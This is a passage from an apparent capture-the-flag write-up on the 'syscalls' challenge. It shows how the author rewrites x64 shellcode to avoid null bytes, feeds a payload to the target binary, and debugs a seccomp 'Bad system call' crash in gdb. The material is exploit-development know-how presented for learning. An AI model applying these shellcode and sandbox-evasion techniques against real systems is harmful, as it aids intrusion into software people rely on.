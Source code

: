 Luckily there are great resources out there such as the post [Null Terminated Programming 101](https://0x00sec.org/t/null-terminated-programming-101-x64/20398) by x24whoami24 that explain how to deal with that. 

For example, with null bytes:
```asm
push 0x80 ; size: 128
```

Without null bytes:
```asm
xor r10, r10  ; size: 128
add r10, 0x1
shl r10, 0x7
push r10
```

After getting rid off the null bytes let's quickly verify if everything still works:
```
$ ./shellcode         
ehlo
zsh: segmentation fault  ./shellcode
```

Promising. But something still seems off:

```bash
$ ./syscalls < payload
The flag is in a file named flag.txt located in the same directory as this binary. That's all the information I can give you.
zsh: invalid system call  ./syscalls < payload
```

Let's do some debugging:

```bash
$ gdb syscalls
catch syscall prctl
run < payload
```

Since the binary is stripped `catch syscall` can be used to break near the relevant part in the program flow. In this case the syscall `prctl` seems like a good option. There should be the two calls as seen in the disassembly which are very close to the actual execution of our shellcode. After the second call we can step through until `call *%rax` which triggers the shellcode.

Now here things get sketchy. Before reaching the syscall `writev` on the `push %rax` instruction gdb displays a warning. 

![GDB](/syscalls/before_segfault.png)

One step further the program crashes:

```
Program terminated with signal SIGSYS, Bad system call.
```

At this point it is not very evident to me (maybe it should be?) that the `writev` syscall is the problem since the program crashes before the actual call to it. (I spent quite some time here, couldn't pinpoint the issue however.) 
